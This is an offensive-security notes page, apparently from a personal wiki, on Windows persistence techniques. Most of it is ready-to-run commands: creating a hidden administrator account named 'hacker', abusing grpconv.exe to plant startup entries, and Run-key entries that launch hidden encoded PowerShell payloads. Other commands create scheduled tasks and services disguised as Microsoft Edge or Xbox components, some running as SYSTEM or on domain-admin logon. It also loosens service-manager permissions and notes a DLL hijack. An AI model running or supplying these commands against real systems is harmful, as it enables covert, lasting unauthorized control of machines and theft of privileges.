 ```yaml
---
title: Windows Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/windows/index]].

# Account Creation

~~~ bat
net.exe user hacker P@ssw0rd1234 /add
net.exe localgroup administrators hacker /add
~~~

Untested tools:

- [CreateHiddenAccount](https://github.com/wgpsec/createhiddenaccount)

# Startup Folder

As unprivileged user write an executable or LNK file into the autostart folder at `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` or as local admin at `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`.
It will be executed on logon in the users context.

`grpconv.exe` can be used to create files inside the autostart folder ([Source](https://mobile.twitter.com/cyb3rops/status/1526952076940652546)).

First write `%userprofile%\setup.ini`:

~~~
[progman.groups]
group001=Startup

[group001]
"FILENAME",PROGRAM,ICON,0,UNKNOWN,UNKNOWN,UNKNOWN
"Relative Calculator",calc.exe,calc.exe,0,,,
"Absolute Calculator",C:\Windows\System32\calc.exe,C:\Windows\System32\calc.exe,0,,,
"Calculator over CMD",cmd /c calc,calc.exe,0,,,
~~~

Then execute `grpconv.exe -o` to create the entry.

> **Note:**
> It is possible to use some environment variables in the *PROGRAM* field.
> For example `%comspec%` works, but `%userprofile%` doesn't, because `C:\` gets prepended somehow.

References:

- [persistence-info.github.io/data/startupfolder.html](https://persistence-info.github.io/Data/startupfolder.html)

# Registry Autorun Keys

As unprivileged user execute a command when the user logs in.

=== "builtin"
    ~~~ bat
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

As local admin execute a command when any user logs in (in the users context).

=== "builtin"
    ~~~ bat
    reg.exe add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

References:

- [persistence-info.github.io/data/run.html](https://persistence-info.github.io/Data/run.html)

# Scheduled Task

As unprivileged user execute a command every hour.

=== "[[notes/tools/sharpersist]]"
    ~~~ bat
    .\SharPersist.exe -t schtask -n "MicrosoftEdgeUpdateTaskMachine" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-w hidden -noni -nop -e %PAYLOAD%" -o daily -m add
    ~~~

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc daily
    ~~~

As local admin execute a command on boot.

=== "bulitin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onstart /ru "NT Authority\SYSTEM" /rl highest
    ~~~

As local admin, execute a command when a member of a high value group logs in.

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onlogon /ru "corp.local\domain admins" /rl highest
    ~~~

Remove a scheduled task.

=== "builtin"
    ~~~ bat
    schtasks.exe /delete /tn "MicrosoftEdgeUpdateTaskMachine" /f
    ~~~

References:

- [persistence-info.github.io/data/taskscheduler.html](https://persistence-info.github.io/Data/taskscheduler.html)

# Service

Create a service as local admin.

=== "builtin"
    ~~~ bat
    sc.exe create XboxNetApi binPath= "C:\Program Files\Vendor\Backdoor.exe" start= auto
    sc.exe start XboxNetApi
    ~~~

As local admin allow everybody to create a service that runs as `system` ([source](https://twitter.com/0gtweet/status/1628720819537936386)).

=== "builtin"
    ~~~ bat
    sc.exe sdset scmanager D:(A;;KA;;;WD)
    ~~~

References:

- [persistence-info.github.io/data/services.html](https://persistence-info.github.io/Data/services.html)

# WMI Event Subscription

Under construction 🚧

# DLL Hijacking

Under construction 🚧

As local admin on a Windows Server write `wlanapi.dll` anywhere into the system `PATH`, then trigger NetMan from an interactive session trough COM ([source](http://web.archive.org/web/20230629210511/https://itm4n.github.io/windows-server-netman-dll-hijacking/)).

# COM Hijacking

Under construction 🚧
